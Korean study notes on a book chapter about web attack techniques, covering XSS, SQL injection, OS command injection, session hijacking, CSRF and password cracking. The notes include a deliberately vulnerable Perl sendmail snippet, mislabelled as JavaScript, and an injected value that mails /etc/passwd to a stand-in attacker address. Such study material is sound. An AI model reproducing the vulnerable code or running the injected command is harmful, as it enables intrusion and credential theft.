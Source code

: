 ```yaml
---
title: 그림으로 배우는 HTTP 스터디 5
date: 2020-02-21
tag: [Study]
---
```


## "그림으로 배우는 HTTP" 스터디 5

### 11장: 웹 공격 기술

#### 크로스 사이트 스크립팅(XSS)

- 크로스 사이트 스트립팅은 취약성이 있는 웹 사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나, JavaScript 등을 공격자가 악의적으로 동작시키는 공격이다.

#### SQL Injection

- 먼저 SQL이란, 관계형 데이터베이스 관리 시스템에 대해서 조작하는 데이터베이스 언어이다. 그리고 SQL 인젝션은 이 언어를 이용하여 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격을 말한다. 예를들면,  
  `SELECT * FROM bookTBl WHERE author='우에노 센'--' and flag=1;`에서 인젝션이 발생하는 원인은, '--' 문자의 삽입이다. 이로 인해서 뒤에 오는 내용은 주석처리가 되고 `flag=1` 조건은 실행되지 않는다.

#### OS Command Injection

- OS 커맨드 인젝션이란 웹 애플리케이션을 경유하여 OS 명령을 부정하게 실행하는 공격을 말한다. 예를 들면,

  ``` javascript
  my $adr = $q -> param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com\n"
  ```

- 위와 같은 스크립트에서 공격자가 메일 주소 값 $adr에 `; cat /etc/passwd | mail hack@example.jp`를 보낸다면,  
  첫번째 ';'세미콜론으로 인해 복수의 커맨드가 실행된다. 즉, sendmail 커맨드가 먼저 실행되고, 뒤이어 `cat /etc/passwd | mail hack@example.jp`가 실행된다. 결과적으로 `/etc/passwd`라는 리눅스 계정 정보가 포함된 파일이 `hack@example.jp` 메일로 송신된다.

#### HTTP 헤더 Injection

- HTTP 헤더 인젝션이란 공격자가 리스폰스 헤더 필드에 개행 문자 등을 삽입함으로써 임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격을 말한다.

#### 부적절한 에러 메세지

- "아이디가 등록되어 있지 않습니다" 혹은 "비밀번호가 틀립니다"와 같은 에러 메세지에는 문제가 있다. 왜냐하면 이를 통해서 공격자가 "음! 아이디가 등록되어 있지 않으니 아이디를 바꿔서 다시 시도해봐야겠군!" 혹은 "음! 비밀번호가 틀렸다는 말은 아이디는 존재한다는 의미로군!"과 같이 유익한 정보를 얻을 수 있기 때문이다.  
  그렇기 때문에 "아이디 혹은 비밀번호를 다시 확인해주세요"와 같이 별다른 정보를 얻을 수 없도록 에러메세지를 작성해야 한다.

#### 세션 하이잭

- 세션 하이잭은 공격자가 어떠한 방법으로 유저의 세션 ID를 탈취해서 악용하는 것으로, 공격자가 유저인 것처럼 위장하여 공격하는 것을 말한다. 이런 세션 하이잭의 예시로는, 공격자가 크로스 사이트 스크립팅을 통해 `documment.cookie`라는 JavaScript 코드를 사용하여 세션 ID를 포함한 쿠키를 탈취할 위험이 있다. 이와 같이 XSS를 이용한 세션 하이잭을 막기 위해서는 쿠키의 속성으로 `HttpOnly` 속성을 지정해주면 된다.

#### 크로스 사이트 리퀘스트 포저리(CSRF)

- 크로스 사이트 리퀘스트 포저리란, 인증된 유저가 의도하지 않은 개인정보나 설정정보 등을 공격자가 설치해 둔 함정에 의해 어떤 상태를 갱신하는 처리를 강제로 실행시키는 공격으로 수동적 공격이다. 유저의 자동로그인과 같이 "인증된 상태"를 이용해서 그 브라우저를 통해 서버에 무엇인가 call을 요청함으로써 원하는 정보를 취득하거나 이득을 보는 공격이다.

#### 패스워드 크래킹

- **무차별 대입 공격** : 비밀번호 시스템에서 취할 수 있는 모든 경우의 수를 무차별적으로 다 때려박는 방식이다. 시간이 얼마가 걸리든 언젠가는 통과한다.  
- **사전 공격** : 무차별적으로 다 때려박는 게 아니라 사전에 사용자들이 비밀번호로 입력할만한 후보들을 추려서 대입해보는 방식이다. 만약 풀릴경우 무차별 대입 공격보다 훨씬 효율적이지만 아예 통과 못할 수도 있다.  
- **레인보우 테이블** : 레인보우 테이블은 평문과 그에 대응하는 해시 값으로 구성된 데이터베이스 테이블로, 사전에 이 테이블을 준비한 후 무차별 대입 공격이나 사전 공격시에 레인보우 테이블에서 해시 값을 검색해서 이에 맞는 평문을 이끌어 냄으로써 시간을 단축할 수 있다.

#### DDOS

- 먼저 DOS란, 타겟 서버에 대량의 엑세스를 집중시킴으로써 부하를 걸어 서버의 리소스를 다 소비하게 해서 사실상 서비스 정지상태로 만드는 공격을 말한다. 그리고 이 공격을 여러 대의 컴퓨터로 수행하는 것을 DDOS 공격이라고 한다.

